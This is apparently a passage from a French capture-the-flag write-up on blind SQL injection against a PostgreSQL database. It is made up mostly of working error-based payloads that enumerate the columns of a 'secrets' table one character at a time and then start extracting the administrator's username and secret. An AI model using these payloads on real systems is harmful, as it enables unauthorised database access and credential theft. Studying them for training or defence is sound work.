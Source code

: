La première colonne se nomme "id".

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT a.attname FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped ORDER BY a.attnum LIMIT 1 OFFSET 1)::text,1,1))=ASCII('u') THEN lastname ELSE (1/(SELECT 0))::text END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT a.attname FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped ORDER BY a.attnum LIMIT 1 OFFSET 1)::text,2,1))=ASCII('s') THEN lastname ELSE (1/(SELECT 0))::text END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT a.attname FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped ORDER BY a.attnum LIMIT 1 OFFSET 1)::text,3,1))=ASCII('e') THEN lastname ELSE (1/(SELECT 0))::text END)
```

La seconde colonne se nomme "username".

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT a.attname FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped ORDER BY a.attnum LIMIT 1 OFFSET 2)::text,1,1))=ASCII('s') THEN lastname ELSE (1/(SELECT 0))::text END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT a.attname FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped ORDER BY a.attnum LIMIT 1 OFFSET 2)::text,2,1))=ASCII('e') THEN lastname ELSE (1/(SELECT 0))::text END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT a.attname FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped ORDER BY a.attnum LIMIT 1 OFFSET 2)::text,3,1))=ASCII('c') THEN lastname ELSE (1/(SELECT 0))::text END)
```

La troisième et dernière colonne se nomme "secret".

Récupération du secret de l'administrateur :&#x20;

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT username FROM secrets LIMIT 1 OFFSET 0)::text,1,1))=ASCII('a') THEN lastname ELSE (1/(SELECT 0))::text END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT username FROM secrets LIMIT 1 OFFSET 0)::text,2,1))=ASCII('d') THEN lastname ELSE (1/(SELECT 0))::text END)
```
